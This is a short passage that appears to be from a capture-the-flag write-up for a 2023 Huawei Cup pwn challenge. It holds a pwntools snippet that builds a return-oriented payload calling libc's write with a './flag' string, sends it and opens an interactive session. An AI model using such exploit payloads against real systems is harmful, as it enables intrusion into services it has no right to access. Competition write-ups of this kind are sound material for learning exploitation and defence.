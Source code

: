 ```python
payload += p32(libcbase + libc.symbols['write']) + p32(libcbase + pop3_ret) + p32(1) + p32(stack) + p32(0x100)
payload += b"./flag"
#raw_input()
sh.sendline(payload)
#attach(sh)	

sh.interactive()
```

![image-20231001231104525](D:\ctf-competition\2023华为杯\2023华为WriteUp\image-20231001231104525.png)